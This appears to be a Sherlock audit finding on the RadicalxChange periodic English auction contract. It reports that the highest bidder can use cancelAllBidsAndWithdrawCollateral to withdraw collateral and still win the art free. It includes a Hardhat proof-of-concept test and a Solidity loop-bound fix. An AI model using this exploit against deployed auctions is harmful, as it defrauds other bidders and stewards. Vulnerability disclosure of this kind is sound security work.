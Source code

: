 Tiny Foggy Aardvark

high

# The Highest Bidder Can Maliciously Cancel His Bid Just Before Closing the Auction

## Summary
The highest bidder can still cancel his bid before closing the auction via [EnglishPeriodicAuctionFacet::cancelAllBidsAndWithdrawCollateral](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L187-L190), thus getting the art for free
## Vulnerability Detail
The requirement to ensure the highest bidder in a round can't cancel his bid is only present when cancelling only [one bid](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L393-L396), a malicious highest bidder can use the [_cancelAllBids](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L378-L412) functionality to bypass this limit and thus abuse the contract.
Please add the below test to `test/auction/EnglishPeriodicAuction.ts`
<details>
<summary><b>POC</b></summary>

```typescript
     it('allows highest bidder to cancel and withdraw bid', async function () {
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) + 100,
        licensePeriod: 1000,
      });

      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      // Mint token manually
      const steward = owner.address;
      await licenseMock.mintToken(steward, 0);
      const balance = await ethers.provider.getBalance(instance.address);

      expect(await balance).to.be.equal(0);

      // Start auction
      await time.increase(300);

      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

      const bidAmount2 = ethers.utils.parseEther('1.2');
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const collateralAmount2 = feeAmount2.add(bidAmount2);

      //first bidder
      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

        //second bidder
      await instance
        .connect(bidder2)
        .placeBid(0, bidAmount2, { value: collateralAmount2 });

      

      await time.increase(100);

      //time elapses without any other bid, bidder2 goes on to then cancel and withdraw his bid
      //before closing the auction
      await instance.connect(bidder2).cancelAllBidsAndWithdrawCollateral(0);

      await instance.connect(bidder2).closeAuction(0);
      expect(await licenseMock.ownerOf(0)).to.be.equal(bidder2.address);
      //attempt to cancel bid for round 0 and then withdraw, will trigger a revert, since the available
      //contract balance isn't upto the bidder's available collateral
      await expect(
        instance.connect(bidder1).cancelBidAndWithdrawCollateral(0, 0),
      ).to.be.reverted;
    });
```

</details>

and then run:
```typescript
npx hardhat test test/auction/EnglishPeriodicAuction.ts
```
## Impact
   this will cause one of the following:
+    cause closing of the auction impossible, since the needed fee amount for distribution has already been withdrawn
    this will thus always trigger a revert
+  Make a previous bidder who hasn't yet cancelled his bid unable to, since if the available contract balance is >=
    the fee amount needed for distribution, the closing of the auction will succeed and thus use up the bidder's collateral deposit
+ The previous owner(aka initial bidder/current bidder)will not be able to withdraw his available collateral, since the needed collateral from the highest bidder has already been withdrawn.

To put it simply, the highest bidder can get the art for free


## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434
## Tool used

Manual Review

## Recommendation
[_cancelAllBids](_cancelAllBids) should be restricted to current round - 1, it shouldn't cancel the current round's bid, that should be done with [cancelBid](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L378-L412), i.e.
```solidity
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();


        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];


+        for (uint256 i = 0; i < currentAuctionRound; i++) { //<-@  <= to <
            Bid storage bid = l.bids[tokenId][i][bidder];


            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;


                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```